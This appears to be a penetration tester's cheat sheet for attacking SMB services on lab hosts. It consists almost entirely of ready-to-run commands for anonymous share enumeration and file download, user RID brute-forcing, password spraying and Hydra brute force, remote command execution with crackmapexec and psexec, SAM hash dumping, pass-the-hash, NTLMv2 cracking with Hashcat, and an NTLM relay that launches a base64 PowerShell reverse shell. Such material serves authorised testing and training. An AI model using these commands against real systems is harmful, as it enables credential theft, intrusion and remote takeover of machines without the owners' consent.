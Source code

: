 1. Nmap: `sudo nmap 10.129.14.128 -sV -sC -p139,445`
2. SMBclient
    ```bash
    smbclient -N -L //10.129.14.128 # no logon
    smbclient //10.129.14.128/notes # connecting to share
    ```
3. Download Files: `get file_name`
4. Brute Forcing User RIDs: 
    1. 
        ```bash
        for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
        ```
    2. You can use script from [Impacket](https://github.com/SecureAuthCorp/impacket) called [samrdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/samrdump.py) alternatively: `samrdump.py 10.129.14.128`
5. Crackmapexec: 
    1. `crackmapexec smb 10.129.14.128 --shares -u '' -p ''`
    2. `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth`
    3. `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`
    4. `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`
    5. `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`
5. RPCclient:
```bash
rpcclient -U "" 10.129.14.128
srvinfo
enumdomains
querydominfo
netshareenumall
netsharegetinfo notes
enumdomusers
queryuser 0x3e9
querygroup 0x201
```
7. SMBMap:
    1. `smbmap -H 10.129.14.128`
    2. `smbmap -H 10.129.14.128 -r notes`
    3. `smbmap -H 10.129.14.128 --download "notes\note.txt"`
8. Enum4Linux:
```bash
git clone https://github.com/cddmp/enum4linux-ng.git
cd enum4linux-ng
pip3 install -r requirements.txt
./enum4linux-ng.py 10.129.14.128 -A
```
9. HYDRA `hydra -L user.list -P password.list smb://10.129.42.197`
10. `impacket-psexec administrator:'Password123!'@10.10.110.17`
#### **Pass-the-Hash (PtH)**
1. `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`
#### **Hashcat for NTLMv2**
1. `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`
### **impacket-ntlmrelayx**
1. Set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf): `cat /etc/responder/Responder.conf | grep 'SMB ='`
2. Execute impacket-ntlmrelayx with the option --no-http-server, -smb2support, and the target machine with the option -t: `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`
3. Create a PowerShell reverse shell using https://www.revshells.com/, set our machine IP address, port, and the option Powershell #3 (Base64).`impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JAB(..))'`